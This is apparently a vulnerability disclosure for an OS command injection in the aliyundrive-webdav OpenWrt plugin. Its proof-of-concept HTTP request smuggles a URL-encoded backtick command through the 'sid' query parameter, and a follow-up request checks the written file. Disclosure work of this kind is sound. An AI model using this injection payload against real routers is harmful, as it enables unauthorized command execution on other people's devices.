

## aliyundrive-webdav OpenWrt plugin has a command injection vulnerability

Affected product:  *aliyundrive-webdav* <= 2.3.3

### Product Information

project: https://github.com/messense/aliyundrive-webdav/

Location of the vulnerability: https://github.com/messense/aliyundrive-webdav/openwrt/luci-app-aliyundrive-webdav/luasrc/controller/aliyundrive-webdav.lua

### Vulnerability Description

When deal with `action_query_qrcode` request,`sid` parameter is vulnerable to OS command injection.



payload:

```http
GET /cgi-bin/luci/admin/services/aliyundrive-webdav/query?sid=%60%6c%73%20%2f%3e%2f%77%77%77%2f%31%32%33%2e%74%78%74%60 HTTP/1.1
Host: 192.168.32.129
Cookie: sysauth=41273cb2cffef0bb5d0653592624cf64
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Microsoft Edge";v="122"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.32.129/cgi-bin/luci/admin/services/aliyundrive-webdav/client
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close


```

inject the command "`ls />/www/123.txt`"


check the result

```http
GET /123.txt HTTP/1.1
Host: 192.168.32.129
Cookie: sysauth=41273cb2cffef0bb5d0653592624cf64
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Microsoft Edge";v="122"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.32.129/cgi-bin/luci/admin/services/aliyundrive-webdav/client
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close


```


